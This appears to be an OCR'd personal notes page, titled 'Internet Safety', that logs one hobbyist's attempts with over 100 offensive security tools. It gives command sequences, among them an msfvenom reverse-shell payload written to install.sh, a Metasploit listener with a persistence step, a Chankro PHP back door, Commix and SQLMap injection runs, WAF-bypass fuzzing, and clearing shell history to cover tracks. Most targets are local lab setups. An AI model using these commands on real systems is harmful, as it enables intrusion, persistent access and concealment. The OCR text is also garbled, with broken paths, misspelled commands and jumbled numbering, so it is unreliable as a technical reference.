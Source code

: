 # Internet Safety
B2G: NIST[180025,800171,800172,80053,CSF], KISMS, BNMRMiT, NZISM, GxPEUAnnex11, CCCS, 
GrammLeachBlileyAct, NERCCIPBCSI, PCIDSS, MASTRMG, ACSCISM, APRACPG234, CMMC[Level1-5], 
NCSCCAF, FFIEC, HIPAA, CCNENS, NYDFS23NYCRR500, ENISACybersecurityGuide, ABSCCIGv2,
RBIMasterDirection, FedRAMP, MASNotice655, BCPandDR, CISACyberEssentials, NBCTRMG,
FDA21CFRPart11, CISAWSFBv1.3, ACSCISM, ACSCEssential8, NCSCCloudSecPrinciples.

January 3, 2020. 111 broken apps. : 17 successful hacking apps. No previous knowledge about IT before. Script Kiddie. Prevention: [ ESLint, IDE plugins, and GitHub Actions ], [ MFA, password rotation, and separate browsers ], [ Black list, SPF, DKIM, and DMARC ].

1. Metasploit-framevork 2. Recon-ng 3. BabySploit 4. Dirbuster 5. Grabber 6. BurpSuite 7. Golismero 8. MITRT 9. Tornado 10. Weevely 
11. WPScan 12. theHarvester 13. theMole 14. Yasuo 15. Lazy 16. Katoolin 17. DVWA 18. Corsy 19. Armitage 20. BeEF 21. Eaphammer 
22. Fluxion 23. Gophish 24. Ngrok 25. Pdfbook 26. Sqid 27. Autopsy 28. Binwalk 29. Bulk_extractor 30. Dradis 31. Dmitry 32. Magic-Tree 
33. Facebookosint 34. Facebook-Location 35. Creepy 36. Ferret 37. Hamster-sidejack 38. Vulnhub 39. Airgeddon 40. Airoscript 41. Catphish 
42. Xsser 43. XSpear 44. Crackle 45. Crunch 46. Dawnscanner 47. Wafp 48. Dirb 50. Exploitpack 51. Fierce 52. Fimap 53. Foremost 
54. Galleta 55. Giskismet 56. Httrack 57. OpenVAS  58. Maltego 59. Tor 60. I2P 61. ParamPamPam 62. Photos 63. Rekall 64. Scapy 
65. Scrapy 66. SMTP2GO 67. TheFatRat 68. U3-Pwn 69. Usbris 70. Vega 71. Valnx 72. Volatility 73. W3af 74. W13Scan 75. Webhandler 
76. WebSlayer 77. Websploit 78. WhatBreach 79. XssScan 80. Weeman 81. Spiderfoot 82. Dnmap 83. Automater 84. Arachni 85. Gobuster 
86. ProxyStrike 87. Webshag 88. DotDotPwn 89. Skipfish 90. Cups 91. Spf 92. WhatWeb 93. Pwnat 94. DNSChef 95. Parsero  96. XssStrike  
97. Xplico 98. OSIF 99. DNSRecon 100. Wafw00f 101. Masscan 102. Legion 103. Iodine 104. Cadaver 105. Laudanum 106. Hfind FLS 107.
98. InSpy 108. OSINT-Spy 109. ReconCobra 110. Inquisitor 111. PhoneInfoga 112.

What worked for me with USB boot. 1. Remot3d, 2. IndoXploit, 3. XAttacker, 4. SQLMap, 5. Pappy, 6. Mitmproxy, 7. Arjun, 8. Commix, 9. Autosploit, 10. Witchxtool, 11. Mitmweb, 12. Poly, 13. Parameth, 14. Docem, 15. Chankro, 16. Wafninja, 17. Wafpass
```
apt-get clean && apt-get update && apt-get upgrade -y && apt-get dist-upgrade -y
id && pwd && uname -a && ip -br a
nano /esc/proxychains.com #dynamic_chain
socks4 lp port

curl -fst htps://download.docker.com/linux/debian/gpg 1 apt-key add -
echo 'deb (arch=amd64) https://download.docker.com/inux/debian buster stable'>/etc/apt/sources:list.d/docker.list
apt-get update && apt-get upgrade
apt-get remove docker docker-engine docker io && apt-get install docker-ce
docker run hello-world
systemct start docker

openvpn -config vpnbook-usl-tcp443.ovpn
User vpnbook Word 2k3a6rw
cat /dev/null > /root/bash_history && history -c && exit
add-on user-agent switcher
add-on cookie-editor && ghostery

chmod 755 xampp* && /xampp
/opt/lampp/lampp start
cd /opt/lampp 8&& /manager* && localhost
alias xpe//opt/ampp/lampp.stant"
source.bash_allases

Nmap på 148 targets tar 150 minutes.
proxychains nmap -IL ips.ixt-oG - I nikto -host -
localhost/phpmyadmin
CREATE TABLE -
nano /opt/lampp/htdocs/data.php
sqlmap -wizard
perl XAttacker.pl -l /root/ip.txt

~/.pappy/certs/server.pem > firefox
-/mitmproxy > *cert.pem firefox > preferens > ca > view > import > *pem
mitmweb && firefox 127...:8080
lsof -i:8080 && kill-9296
netstat -aon
mitmproxy -w wtf.mitm
nikto -host localhost/data.php -useproxy 127...:8080
pydoc3 mitmproxy.http
curl -T demo.php --url data.php -proxy localhost:8080 -I > PUT

VM > NAT > PF > Host > PHP Cookies
nmap -sV -O 10.0.2.2 -oX nx.xml
nvd.nist.gov | cpe:a:mysql:5.5.5
sploitus.com | CVE-2019-2822
curl --data "name=Daniel&weight-6666" -X POST http://localhost/ajax/ --proxy ::1:80
mitmproxy > e > vim > :wq /tmp/mi22 > ascii, CRLF, request headers

disk -l && umask 000 && touch /tmp/sys...
ls -ld /tmp/sys...
setfacl -b /tmp && getfacl /tmp
grep - acl /boot/config*
apt-get install nfs4-acl-tools-acl
mount | grep -i root && chmod -R a-w /var
chmod u=rwx, g=rwx, o=rwx /var
adduser -home /dragonfly dragonfly
getent group dragonfly   #  visar /etc/group
usermod -aG sudo dragonfly
gpasswd -a dragonfly 
sudo mv dawn* /dragonfly && ssl -l dragonfly
bundle install && rake install

python3 arjun.py -u http://localhost/ajax/
commix --url="http//localhost/ajax/" -file-write=/root/Pictures/kali.png  --file-dest=uploads/ --data="name=Fawkes&email=fox@gmail.com8submit=submit" -cookie=tvisited=94..23c" --proxy="httpc/127.0.0.1:8080/" 
./parameth.py -u http://localhost/act.php
commix --url="http://localhost/demo.php --data="name=discobisquits&weighr=discobisquits" --web-root=/opt/lampp/

pip2 install -r requirements.txt
docker-compose run -fin autosploit
python autosploit.py
openssl req -newkey rsa:2048 -nodes -keyout gophish.key -x509 -days 365 -out gophish.crt
pip install beautifulsoup4 requests
apt-get install libcurl4-openssl-dev
make && payloadmask
perl -MCPAN -e'install YAML.::XS'
apt-file update
apt-file search Net/RawlP.pm
apt-get install libnet-rawip-perl
perl witchxtool.pl

poly.py -c php -e b64 -p SHELL -j
docem.py -5 samples/xxe/sample_oxml_xxe_mod0/ -pm XSS -pf payloads/xss_all.txt -pt per_document -kt -sx docx
chankro.py --arch 64 --input METER --output back.php
bash Remot3d IndoXploit th3_p4ssw0rd_l0ck3
make && gcc -Wall -Wextra -o drink me.c
cat hello_world.x86_64 | ./drinkme
python wafninja.py fuzz -u "http://localhost/action.php?id=FUZZ/" -c "phpsessid=value" -t xss -o output.html
python3 wafpass.py --url http://localhost/action.phpPname=discobisquits8oweigth=discobisquits

scrapy genspider -t crawl exam coinbase.com && scrapy crawl quotes : -O q.json -a tag=humor scrapy shell 'url' : file.html && text response.css("span.text::text").getall() && quotesbot / scrapy toscrape-css -o q.json && scrapy fetch -nolog --headers url
```
msfconsole is a toolkit for embedding payloads to induce reverse shell of binaries. See more in exploit-db.com, searchsploit, msfvenom, setoolkit and u3-pwn. Firewalls are his enemy. Payload: Binary connection in reverse. Exploit: Virus that bring shell if executed. Encoder: Padding zeros in binary tails. Fuzzer: Overflow apps to crash with ICMP packets. LPORT: netcat -l 80 or apache2 start. RPORT: 22 with SSH mitm attack. Commands: use - multi/handler is a listener, show, set, exploit. PostgreSQL inside RDS, msfdb init, db_rebuild_cache. 

metasploitable 3 in virtualbox && msfvenom -p linux/x86/shell/reverse_tcp LHOST=ip LPORT=80 -e ruby/base64 -f bash -n 26 > install.sh
msfconsole, use exploit/multi/handler, set payload linux/x86/shell/reverse_tcp, show options, set LHOST=ip, exploit,, run persistence -h   

1. 746 issues, Gemfile.lock nokogiri. 2. API not worth the cost 3. Minimal function/limited 4. Java
5. Minimal function/limited 6. Java 7-9. Too many dependencies 10. System collapse 11. Gemfile.lock
12. Minimal function 13. Machinery module not exist 14. Syntax error 15. Dependencies ... 16. /apt/sources.list
17. Deletes mysql.socket 18. Syntax error 19. Based on Metasploit 20. Browser is not on the panel, packet storm
21. Hostapd, no pem, certificate problem 22. Mdk3, fake AP. packet storm 23. Config.json gulp. not online
24. API not worth the cost 25. Syntax error 26. /apt/sources.list 27-32. Minimal function 33-34. Syntax error
30. Dependencies 35. System collapse 36-37. Pipe kollaps 38. Too big for virtualbox 39. Dependencies 
40. System collapse 41. Nokogiri, Trollo API for trollop 42. Syntax error 43. Bundle install, Gemfile lock 
44. System collapse 45. Minimal function 46. Bundle install, Gemfile.lock 47. Syntax error 48. Wordlists 
49. unknown (x) 50. Java 51. Minimal function 52. Based on Metaspioit 53. Minimal function 54. unknown (x) 
55. Based on Kismet, drive routine error 56 Too old 57. Certificate error, resembles BeEF / BurpSuite
58. API not worth the cost 59-60. Too old 61. Error in GET 62. AttributeError 63 Virtualenv 
64. Six module not exist 65. No Sphinx module 66. Too old 67. Java 68. unknown (x) 69. Virtualenv 
70. 349 issues, Gemfile.lock 71. AttributeError 72. Too old 73-80. System collapse 81. Too old 
82. Minimal function 83. Based on Metasploit 84. API not worth the cost 85. SSL issues 86. Java 
87. System collapse 88. Syntax error 31. Minimal function 89. MIME db is deprecated 90. Unknown (x) 
91. Too old 92. SSL issues  93. Stdlib.h (c++) not exist 94 TypeError between 'str' och 'bool' 95 Too old  
96. TypeError not supported for signing 97. GeoLite mmdb not exist, HTTP 404 98. Minimal function 
